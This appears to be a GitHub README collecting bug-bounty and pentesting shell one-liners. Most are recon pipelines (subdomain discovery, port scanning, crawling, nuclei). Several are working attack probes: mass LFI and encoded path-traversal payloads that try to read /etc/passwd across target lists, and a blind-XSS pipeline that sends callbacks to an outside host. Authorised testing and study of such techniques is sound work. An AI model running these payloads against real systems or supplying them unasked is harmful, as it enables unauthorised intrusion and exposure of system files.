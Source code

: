 ## Pentesting One-Liners Toolkit  
A curated collection of powerful reconnaissance and vulnerability scanning one-liners for bug bounty hunters and penetration testers.  

---

##  Recon Pipeline  

```bash  
subfinder -d redacted.com -all -active | shuffledns -d redacted.com -r resolvers.txt -w n0kovo_subdomains_huge.txt | tee subs.txt | dnsx -silent -a -aaaa -cname -resp | anew resolved.txt & naabu -l resolved.txt -nmap -rate 2000 | anew ports.txt & httpx -l ports.txt -silent | anew alive.txt & katana -list alive.txt -kf all -jc | anew urls.txt & nuclei -l urls.txt -es info,unknown -ept ssl -ss template-spray | tee nuclei.txt  
Full-chain reconnaissance from subdomain discovery to vulnerability scanning.
```

## Juicy Subdomains

```bash  
subfinder -d target.com -silent | dnsx -silent | cut -d ' ' -f1 | grep -Ei 'api|dev|stg|test|admin|demo|stage|pre|vpn'  
Find high-value subdomains using keyword patterns.
```

## BufferOver.run Lookup

```bash  
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u  
Query BufferOver's DNS database for historical records.
```

## CertSpotter Certificates

```bash  
curl -s "https://api.certspotter.com/v1/issuances?domain=target.com&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u  
Extract subdomains from SSL certificates.
```

## Subdomain Takeover Check

```bash  
cat subs.txt | xargs -P50 -I% bash -c 'dig % | grep CNAME' | awk '{print $1}' | sed 's/\.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe  
Detect dangling DNS records for potential takeover.
```

## LFI Scanning

```bash  
cat targets.txt | gau | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P25 sh -c 'curl -s "%" | grep -q "root:x" && echo "[+] VULN: %"'  
Automated LFI payload testing with parallel requests.
```

## Path Traversal Bypass

```bash  
cat targets.txt | while read host; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host VULNERABLE"; done  
Test for LFI bypasses using directory traversal.
```

## XSS Hunting

```bash  
subfinder -dL domainlist.txt | dnsx | shuf | gau | anew | egrep -iv "\.(jpg|jpeg|gif|tif|tiff|png|ttf|woff|woff2|php|ico|pdf|svg|txt|js)$" | urless | dalfox pipe -b https://xss.hunter/?q=1  
Full-chain XSS discovery pipeline with active probing.
```

## Shodan CLI

```bash  
shodan search ssl.cert.subject.cn:"target.com" --fields ip_str | anew ips.txt  
Find IPs associated with target's SSL certificates.
```

## Tools Used
Tool	Purpose	GitHub
- Subfinder	Subdomain discovery	https://github.com/projectdiscovery/subfinder
-- ShuffleDNS	Mass DNS resolver	https://github.com/projectdiscovery/shuffledns
-- dnsx	DNS toolkit	https://github.com/projectdiscovery/dnsx
-- Naabu	Port scanner	https://github.com/projectdiscovery/naabu
-- HTTPX	HTTP probing	https://github.com/projectdiscovery/httpx
-- Katana	Crawler	https://github.com/projectdiscovery/katana
-- Nuclei	Vulnerability scanning	https://github.com/projectdiscovery/nuclei
-- Gau	URL collector	https://github.com/lc/gau
-- Dalfox	XSS scanner	https://github.com/hahwul/dalfox
-- Shodan CLI	Internet intelligence	https://cli.shodan.io/

## Credit

 -- https://x.com/TheMsterDoctor1/status/1905471835128373665
 -- https://github.com/ifconfig-me/cool-bugbounty-oneliners?tab=readme-ov-file
